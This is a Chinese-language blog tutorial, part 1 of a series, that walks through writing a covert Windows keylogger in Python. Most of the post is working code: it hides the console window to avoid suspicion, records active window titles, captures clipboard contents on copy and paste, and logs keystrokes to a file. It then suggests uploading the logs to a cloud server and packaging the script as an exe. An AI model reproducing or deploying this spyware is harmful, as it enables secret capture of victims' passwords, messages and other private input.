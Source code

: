 ```yaml
---
title: 建立键盘记录器part1
description: 使用python编写键盘记录器.
categories:
 - python
tags: 
 - python
 - 渗透测试
---
```


如想有更好的了解请查看[原文](https://0x00sec.org/t/malware-writing-python-malware-part-1/11700)

## 一、导入标准库，隐藏控制台窗口

导入提供所需功能的Windows DLL。所需kernel32.dll与user32.dll，为避免怀疑隐藏控制台窗口。
	
```python
import ctypes    #提供C兼容的数据类型
import logging   #用于记录键盘记录

kernel32  = ctypes.windll.kernel32    #调用kernel32.dll
user32 = ctypes.windll.user32         #调用user32.dll

user32.ShowWindow(kernel32.GetConsoleWindow(),0)    #隐藏窗口
```

## 二、get_current_window()

获取当前窗口标题，以便知道记录的是用户使用的哪个程序。
	
```python
def get_current_window():    #抓取当前窗口标题
    #必需的WinAPI函数
    GetForegroundWindow = user32.GetForegroundWindow
    GetWindowTextLength = user32.GetWindowTextLengthW
    GetWindowText = user32.GetWindowTextW

    hwnd = GetForegroundWindow()    #获取当前窗口句柄
    length = GetWindowTextLength(hwnd)    #获取标题文本长度，将句柄乍为参数传递
    buff = ctypes.create_unicode_buffer(length + 1)    #创建临时缓存buff用于存储标题文本

    GetWindowText(hwnd, buff, length + 1)    #获取窗口标题并存储在buff中

    return buff.value    #返回buff的值
```

## 三、get_clipboard()

捕获剪贴板内容。tips：使用PyWin32可以用更少的代码完成些操作

```python
def get_clipboard():

    CF_TEXT = 1    #设置剪贴板格式

    #GlobalLock/GlobalUnlock 参数与返回类型
    kernel32.GlobalLock.argtypes = [ctypes.c_void_p]
    kernel32.GlobalLock.restype = ctypes.c_void_p
    kernel32.GlobalUnlock.argtypes = [ctypes.c_void_p]

    #GetClipboardData的返回类型
    user32.GetClipboardData.restype = ctypes.c_void_p
    user32.OpenClipboard(0)

    #所需剪贴板函数
    IsClipboardFormatAvailable = user32.IsClipboardFormatAvailable
    GetClipboardData = user32.GetClipboardData
    CloseClipboard = user32.CloseClipboard

    try:
        if IsClipboardFormatAvailable(CF_TEXT):    #如果CF_TEXT可用
            data = GetClipboardData(CF_TEXT)    #获取剪贴板数据的句柄
            data_locked = kernel32.GlobalLock(data)    #获取指向数据所在的内存位置的指针
            text = ctypes.c_char_p(data_locked)    #获取指向data_locked位置的char*(python中的字符串)指针
            value = text.value    #存储有用的值
            kernel32.GlobalUnlock(data_locked)    #递减锁计数
            return value.decode('utf-8')    #返回剪贴板的值
    finally:
        CloseClipboard()    #关闭剪贴板
```

## 四、get_keystrokes()

监听并记录敲击字符并记录。函数调用时需传入两个参数，日志文件存储目录和文件名。
按键记录使用while死循环，原因不希望键盘记录停止。但如果我们要同时执行其他任务，则需要使用多线程或单独的进程中与其他函数一并运行它。

```python
def get_keystrokes(log_dir,log_name):    #监听与记录敲击键盘内容
    #记录
    logging.basicConfig(filename=(log_dir + '\\' + log_name),level=logging.DEBUG,format='%(message)s')

    GetAsyncKeyState = user32.GetAsyncKeyState    #WinAPI函数，确定按键是向上还是向下
    special_keys = {
        0x08: 'BS',
        0x09: 'Tap',
        0x10: 'Shift',
        0x11: 'Ctrl',
        0x12: 'Alt',
        0x14: 'CapsLock',
        0x1b: 'Esc',
        0x20: 'Space',
        0x2e: 'Del',
    }
    current_window = None
    line = []    #存储点击的字符

    while True:
        if current_window != get_current_window():    #判断current_window内容不是当前打开的窗口
            current_window = get_current_window()    #将窗口标题放在current_window中
            logging.info(str(current_window))    #将当前窗口标题写入日志文件

        for i in range(1,256):    #256个ASCII字符
            if GetAsyncKeyState(i) & 1:    #如果点击某个键并匹配ASCII字符
                if i in special_keys:    #如果是特殊键，这样记录
                    logging.info("<{}>".format(special_keys[i]))
                elif i == 0x0d:    #如果键入<ENTER>，则记录然后清除行变量
                    logging.info(line)
                    line.clear()
                elif i ==0x63 or i == 0x43 or i == 0x56 or i ==0x76:    #如果点击字符'c'或'v'，则获取剪贴板数据
                    clipboard_data = get_clipboard()
                    logging.info("[CLIPBOARD] {}".format(clipboard_data))
                elif 0x30 <= i <= 0x5a:    #如果是字母数字字符，则追加到line
                    line.append(chr(i))
```

后续可自加代码，如定时将记录文件上传到云服务器 :grin: 

将py文件用pyinstaller打包成exe并运行，因为使用while True死循环，cpu占用较高，这点将在part2解决。

![part1_1](https://raw.githubusercontent.com/yui77111/yui77111.github.io/master/assets/images/article/python/1_1.png)

![part1_2](https://raw.githubusercontent.com/yui77111/yui77111.github.io/master/assets/images/article/python/1_2.png)

![part1_3](https://raw.githubusercontent.com/yui77111/yui77111.github.io/master/assets/images/article/python/1_3.png)

源代码已上传致[gayhub](https://github.com/yui77111/python-malware/blob/master/part1/keylogger.py)